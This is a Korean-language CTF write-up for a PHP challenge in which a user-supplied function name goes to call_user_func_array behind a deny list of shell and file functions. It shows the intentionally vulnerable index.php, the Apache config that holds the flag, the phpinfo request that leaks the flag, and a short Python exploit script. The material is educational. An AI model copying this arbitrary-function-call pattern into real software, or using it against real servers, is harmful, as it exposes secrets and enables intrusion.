 # Exec Anything

# Usage
- 2024.05#1

# Concept
- PHP call_user_func_array

# Writeup

Docker 파일을 확인해보면 php 8.0에 apache 서비스로 돌고 있다.
####  Dockerfile
```docker
FROM php:8.0-apache

WORKDIR /var/www/html

COPY index.php /var/www/html/

COPY 000-default.conf /etc/apache2/sites-available/

RUN a2enmod rewrite

EXPOSE 80
```

apache conf 파일을 확인해보면 SetEnv를 통해 linux 환경변수가 아니라 apache 환경변수에 세팅해주고 있다.
####  000-default.conf

```conf
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    SetEnv flag "hspace{?}"

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

index.php에서는 disallowed_functions에 많은 필터링이 걸림을 확인할 수 있다. 일반적인 php shell commandline 함수들이 막혀있다

GET 방식으로 function_name과 args를 받고 있는데 function_name에 대한 필터링이 존재하고 인자에 대해서는 ,를 통해 배열로 인자를 넘겨서 `call_user_func_array`로 호출해주는 것을 확인할 수 있다.

`call_user_func_array` 호출한 output을 print_r해주는 것을 볼 수 있다.

####  index.php
```php
<?php
$disallowed_functions = ['system', 'eval', 'exec', 'shell_exec', 'passthru', 'popen', 'proc_open', 'fopen', 'file_get_contents', 'readfile', 'include', 'require', 'include_once', 'require_once', 'parse_ini_file', 'show_source', 'highlight_file', 'var_dump', 'print_r', 'var_export', 'debug_zval_dump', 'debug_print_backtrace', 'get_defined_vars', 'get_defined_functions', 'get_defined_constants', 'get_included_files', 'get_required_files', 'get_declared_classes', 'get_declared_interfaces', 'get_declared_traits'];

function call_user_func_safely($function_name, $params = []) {
    global $disallowed_functions;
    if (in_array($function_name, $disallowed_functions)) {
        return "Function not allowed!";
    } else {
        return call_user_func_array($function_name, $params);
    }
}

if (isset($_GET['function_name'])) {
    $func = $_GET['function_name'];
    $args = $_GET['args'] ?? '';

    $args = explode(',', $args);
    array_walk($args, function(&$item) { $item = trim($item); });
    
    $output = call_user_func_safely($func, $args);
    echo '<pre>' . print_r($output, true) . '</pre>';
} else {
    echo '<form method="get">
            Function Name: <input type="text" name="function_name" placeholder="Enter function name">
            <br>
            Arguments: <input type="text" name="args" placeholder="Comma-separated arguments">
            <br>
            <input type="submit" value="Execute">
          </form>';
}
?>
```

이 문제를 해결하려면 `phpinfo`를 통해 해결할 수 있다.
하지만 phpinfo함수에 대해 자세히 알아야한다.
`phpinfo()` 함수는 PHP의 설정과 현재 서버의 환경에 대한 광범위한 정보를 출력하는 PHP의 내장 함수다. 이 함수는 주로 디버깅과 시스템 설정 정보를 확인하는 데 사용한다. 일반적으로 argument를 주지 않고 호출할 수 있지만 여기서는 무조건 인자가 필요하다.

만약 인자를 주지 않고 실행하면 아래와 같이 오류가 발생한다. 즉, 무조건 인자를 주고 환경변수를 읽어와야한다.

http://localhost:8080/?function_name=phpinfo&args=
```
Fatal error: Uncaught TypeError: phpinfo(): Argument #1 ($flags) must be of type int, string given in /var/www/html/index.php:9 Stack trace: #0 /var/www/html/index.php(9): phpinfo('') #1 /var/www/html/index.php(20): call_user_func_safely('phpinfo', Array) #2 {main} thrown in /var/www/html/index.php on line 9

phpinfo에 대한 자세한 내용은 https://www.php.net/manual/en/function.phpinfo.php를 확인해보면 된다.
```
phpinfo() options
Name (constant)	Value	Description
INFO_GENERAL	1	The configuration line, php.ini location, build date, Web Server, System and more.
INFO_CREDITS	2	PHP Credits. See also phpcredits().
INFO_CONFIGURATION	4	Current Local and Master values for PHP directives. See also ini_get().
INFO_MODULES	8	Loaded modules and their respective settings. See also get_loaded_extensions().
INFO_ENVIRONMENT	16	Environment Variable information that's also available in $_ENV.
INFO_VARIABLES	32	Shows all predefined variables from EGPCS (Environment, GET, POST, Cookie, Server).
INFO_LICENSE	64	PHP License information. See also the » license FAQ.
INFO_ALL	-1	Shows all of the above.
```

http://localhost:8080/?function_name=phpinfo&args=-1 형태로 요청하게되면 Apache Environment에 flag 환경변수가 세팅되어있음을 확인할 수 있다.

http://localhost:8080/?function_name=phpinfo&args=-8 형태로 phpinfo(8); 을 호출해도 확인이 가능하다.


#### ex.py
```python
import requests

url = "http://localhost:8080/?function_name=phpinfo&args=8"
r = requests.get(url)

flag_idx = r.text.index("hspace")
print(r.text[flag_idx:flag_idx+40])
```